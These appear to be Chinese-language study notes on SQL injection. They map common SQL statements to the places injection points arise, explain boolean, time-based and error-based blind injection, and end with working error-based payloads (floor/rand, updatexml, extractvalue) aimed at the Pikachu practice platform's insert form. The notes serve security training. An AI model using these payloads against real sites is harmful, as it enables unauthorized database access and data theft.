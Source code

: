 ```
select查询数据
在网站应用中进行数据显示查询操作
例: select * from news where id=$id

insert插入数据
在网站应用中进行用户注册添加等操作
例: insert into news (id, url, text) values (2, 'x','$t')

delete删除数据
后台管理里面删除文章删除用户等操作
例: delete from news where id=$id 

update更新数据
会员或后台中心数据同步或缓存等操作
例: update user set pwd='$p' where id=2 and username= 'admin'

order by排序数据
一般结合表名或列名进行数据排序操作
例: select * from news order by $id
例: select id, name, price from news order by $order

重点理解:
我们可以通过以上查询方式与网站应用的关系，注入点产生地方或应用猜测到对方的SQL查询方式

pikachu漏洞练习平台
SQL注入报错盲注
盲注就是在注入过程中，获取的数据不能回显至前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。我们可以知道盲注分为以下三类:

基于布尔的SQL盲注-逻辑判断
regexp, like, ascii, left, ord, mid

基于时间的SQL盲注-延时判断
if, sleep

基于报错的SQL盲注-报错回显
floor, updatexml，extractvalue

https://www.jianshu.com/p/bc35f8dd4f7c

参考:
like 'ro%'     #判断ro或ro.. .是否成立
regexp '^xiaodi[a-z]'   #匹配xiaodi及xiaodi...等
if(条件,5,0)    #条件成立返回5反之返回0
sleep(5)     #sQI语句延时执行5秒
mid(a,b,c)     #从位置b开始，截取a字符串的c位
substr(a,b,c)    #从b位置开始，截取字符串a的c长度
left(database(),1),database() #left(a,b)从左侧截取a的前b位
length(database())=8   #判断数据库database ()名的长度
ord=ascii ascii(x)=97   #判断x的asci i码是否等于97
Payload:
pikachu insert
username=x' or(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e)))
from information_schema.tableslimit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
or '&password=xiaodi&sex=%E7%94%B7&phonenum=13878787788&email=wuhan&add=hubei&submit=submit

username=x' or updatexml(1,concat(0x7e,(version())),0) or
'&password=xiaodi&sex=%E7%94%B7&phonenum=13878787788&email=wuhan&add=hubei&submit=submit

username=x' or extractvalue(1,concat(0x7e,database())) or
'&password=xiaodi&sex=%E7%94%B7&phonenum=13878787788&email=wuhan&add=hubei&submit=submit

```